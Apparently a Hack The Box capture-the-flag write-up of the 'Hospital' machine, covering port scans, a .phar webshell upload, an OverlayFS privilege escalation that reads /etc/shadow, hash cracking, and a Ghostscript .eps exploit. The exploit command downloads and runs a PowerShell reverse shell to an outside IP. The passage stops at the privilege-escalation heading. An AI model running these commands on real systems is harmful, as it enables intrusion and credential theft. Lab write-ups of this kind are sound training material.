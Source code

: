 # Hospital

---

title: "Hsopital"
date: 2023-11-22T11:30:03+00:00
tags: ["web","windows","GhostScript"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Hospital.png"
comments: false
description: "This is a friendly windows machine that is vulnerable because it presents an outdated version of ports 9255 and 9256 (AChat)."

---

## Room Information

- Room name: Hospital
- Difficulty level: Medium
- Room link: [https://app.hackthebox.com/machines/hospital](https://app.hackthebox.com/machines/hospital)

## Tools Used

- Nmap
- crackmapexec
- msfvenom
- icacls
- smbserver
- smbclient
- searchsploit

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.241
```

![Untitled](/HTB/1.png)

```bash
nmap -p 22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6612,6631,8080,9389,21177 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.241
```

![Untitled](/HTB/2.png)

![Untitled](/HTB/3.png)

So the first thing I did as always is to check **smb** ports, ldap, the website and all the subdomains…

## Enumeration

On this machine there was no web page so the only data enumeration I could do was from the smb ports, but I got nothing because even though I was allowed to connect with an anonymous user, I had no permissions to list anything.

The first thing I did was to visit the website and add it to /etc/hosts. After that I could see the main website, which was hosted on port 443 (https) with two different subdomains; DC.hospital.htb and hospital.htb.

![Untitled](/HTB/4.png)

After seeing that these two subdomains led to the same website I tried the typical SQL injection, but nothing worked. So I started to do searches with wfuzz and gobuster of all kinds, and all the time without finding anything relevant.

I left all this aside and continued enumerating the rest of the ports, I tried everything; with the rdp port (without credentials I could not do anything), the rcp port (same as above), ldap and crackmapexec, all failed... 

So going down the nmap scan I saw that there was another web page hosted on port 8080 (http). 

![Untitled](/HTB/5.png)

I found myself in front of another login panel in which I tried again the typical SQL injection statements without result, but in this web there was something different, since it allowed to create an account and then log in.

![Untitled](/HTB/6.png)

I did that and when I logged in it opened a page where I could upload files (the web was programmed in php), so I started to try to upload php files, I tried everything; upload a malicious web.config file, bypass a malicious file in .php by uploading a malicious .htaccess, different double and even triple extensions, also tu inject php shell code to a photo… until when I tried a different php extension called .phar I found an exploit that worked and created a webshell in the browser.

![Untitled](/HTB/7.png)

![Untitled](/HTB/8.png)

## Exploiting

I search the version of kernel ande machine, and I found this exploit to escalate privileges:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /etc/shadow")'
```

![Untitled](/HTB/9.png)

So now I could execute commands on behalf of the user rootasi so I started looking for relevant information, until I found in the /etc/passwd file users like drwilliams and root, then in /etc/shadow I found the hash of the user root and drwilliams. So the next thing I did was to crack the password of root and drwilliams using hascat:

```bash
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Once I got the password for the drwilliams user I could connect via ssh, it was a linux machine, so I knew I had to connect to a windows one sooner or later.

![Untitled](/HTB/10.png)

![Untitled](/HTB/11.png)

I set out to search for information like crazy through the system, I became root with the following program -> https://github.com/synacktiv/CVE-2023-35001

![Untitled](/HTB/12.png)

After wasting some time with this I decided to try the credentials in the first web that I found hosted in port 443 as the last option, since it was an email web for doctors and the user that was in the machine was called drwilliams.... And it worked, now I had access to the following internal email website between the doctors:

![Untitled](/HTB/13.png)

So I started to see the emails he sent with the rest of the doctors and I discovered a new user, drbrown, who sent him an email talking about the fact that he had to finish the .eps project since he needed it to put it into production and view it with ScriptGhost.

![Untitled](/HTB/14.png)

I started searching drwilliams system for things related to this but I didn't find anything, so I searched on the internet and found a vulnerability for the ScriptGhost program which consisted of creating a malicious .eps. So that's what I did, I created the malicious script and emailed it to him to see what happened, I listened and got the reverse shell as drbrown on the Windows machine now.

The exploit code:

```bash
python3 CVE_2023_36664_exploit.py -g -p "IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.192 4444" -x eps
```

## Escalating Privileges